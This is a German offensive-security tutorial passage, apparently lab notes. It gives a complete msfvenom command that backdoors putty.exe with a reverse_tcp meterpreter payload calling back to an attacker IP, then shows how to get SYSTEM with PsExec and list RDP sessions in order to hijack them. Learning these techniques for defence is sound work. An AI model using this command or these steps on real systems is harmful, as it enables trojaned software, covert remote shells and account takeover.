### Backdooring .exe Files

Wenn die Datei eine Windows Binary ist, bspw. Putty, können wir es Downloaden und mit MSFvenom nutzen, um eine Backdoor zu injezieren. Das Binary würde wie gewohnt funktionieren, aber jedesmal unseren Payload im Hintergrund ausführen. Um eine Backdoor in die Putty.exe zu injezieren geben wir folgendes ein:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

Die herauskommende PuttyX.exe würde jedesmal einen reverse_tcp meterpreter Payload ausführen, ohne das der User das merkt. 

### RDP hijacking

Wenn ein Admin Remote Desktop nutzt um sich auf einer Maschine einzuloggen und den RDP Client einfach nur schließt und sich nicht vorher ausloggt, bleibt seine Session auf dem Server erstmal bestehen. Wenn wir SYSTEM Rechte auf einem Windows 2016 Server oder früheren Versionen haben, können wir jede bestehende RDP Session übernehmen, ohne auch nur ein Passwort zu kennen.

Wenn wir administrativen Zugang haben, können wir jede gewünschte Methode nutzen, um SYSTEM Rechte zu erlangen. Wir nutzen jetzt PSEXEC. Als erstes starten wir cmd.exe als Admin.

![alt text](images/image10.png)

Von da aus, starten wir PsExec64.exe aus dem Ordner C:\tools\ heraus.

>PsExec64.exe -s cmd.exe

Um sich alle existierenden Sessions auf dem Server anzeigen zu lassen, nutzen wir folgenden Befehl:

```bash
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
 ```

 Ausgehend aus dem Output, wenn wir jetzt per RDP als Admin verbunden wären, wäre unser Sessionname *rdp-tcp#6*. Wir können außerdem sehen, dass der User mit dem Namen luke eine Session mit der ID 3 offen hat. Jede Session mit dem Status Disc wurde offen gelassen und ist nicht in Benutzung. Wenn wir eine Session übernehmen, wird der aktuelle User aus seiner Session geworfen, was etwas suspekt sein könnte.
